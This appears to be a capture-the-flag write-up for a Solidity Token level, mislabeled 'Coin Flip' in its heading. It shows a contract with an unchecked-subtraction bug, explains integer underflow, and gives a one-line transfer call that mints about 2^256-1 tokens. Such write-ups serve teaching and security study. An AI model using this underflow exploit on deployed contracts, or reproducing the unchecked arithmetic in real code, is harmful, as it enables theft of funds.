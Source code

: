# Level 3 - Coin Flip

### Objective

The objective of this level is as follows:

1. Increase the number of tokens assigned to your address

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

### Solution

This level is an example of an arithmetic underflow/overflow - an issue which was patched in `v0.8.0` in Solidity.

Arthimetic underflow occurs when subtraction of integers outputs an integer below the minimum value for an n-bit integer. For example, the minimum value of a 2-bit integer is `00`. Underflow occurs as follows:

```
00 - 1 = 11
```

Arthimetic overflow occurs when addition of integers outputs an integer above the maximum value for an n-bit integer. For example, the maximum value of a 2-bit integer is `11`. Overflow occurs as follows:

```
11 + 1 = 00
```

For those with a mathematical background, arithmetic overflow/underflow can be understood to be conceptually similar to modular arithmetic.

In this contract, we can take advantage of arithmetic underflow to assign ourselves a whole lot of tokens (precisely `2^256-1` tokens):

```
await contract.transfer('0x0000000000000000000000000000000000000000', 21)
```

We can verify that we recieved these tokens:

```
await contract.balanceOf(player).then(v => v.toString())

```

Done!

